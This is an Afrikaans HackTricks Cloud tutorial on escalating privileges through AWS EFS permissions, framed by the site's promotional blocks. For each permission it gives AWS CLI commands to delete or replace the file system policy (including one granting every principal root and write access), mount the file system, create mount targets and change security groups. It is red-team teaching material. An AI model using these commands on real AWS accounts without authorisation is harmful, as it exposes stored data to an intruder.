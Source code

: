 # AWS - EFS Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## EFS

Meer **inligting oor EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Onthou dat jy, om 'n EFS te monteer, in 'n subnetwerk moet wees waar die EFS blootgestel word en toegang daartoe moet hê (sekuriteitsgroepe). As dit gebeur, sal jy dit altyd kan monteer volgens die verstek, maar as dit beskerm word deur IAM-beleide, moet jy die ekstra toestemmings wat hier genoem word hê om toegang daartoe te verkry.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Met enige van hierdie toestemmings kan 'n aanvaller die **lêersisteembeleid verander** om jou toegang daartoe te gee, of dit net **verwyder** sodat die **verstektoegang** verleen word.

Om die beleid te verwyder:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Om dit te verander:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Met hierdie toestemming sal 'n aanvaller in staat wees om die EFS te **monteer**. As die skryftoestemming nie standaard aan almal gegee word wat die EFS kan monteer nie, sal hy slegs **leestoegang** hê.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die ekstra toestemmings `elasticfilesystem:ClientRootAccess` en `elasticfilesystem:ClientWrite` kan gebruik word om **binne die lêersisteem te skryf** nadat dit gemoniteer is en om toegang tot daardie lêersisteem **as root** te verkry.

**Potensiële Impak:** Indirekte bevoorregte toegang deur sensitiewe inligting in die lêersisteem te vind.

### `elasticfilesystem:CreateMountTarget`

As 'n aanvaller binne 'n **subnetwerk** is waar **geen monteerdoelwit** van die EFS bestaan nie, kan hy net **een in sy subnet** skep met hierdie bevoorregting:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte bevoorregte verhoging deur sensitiewe inligting in die lêersisteem te vind.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In 'n scenario waar 'n aanvaller vind dat die EFS 'n bergteiken in sy subnet het, maar **geen veiligheidsgroep die verkeer toelaat nie**, kan hy dit net **verander deur die geselekteerde veiligheidsgroepe te wysig**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêersisteem op te spoor.



<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
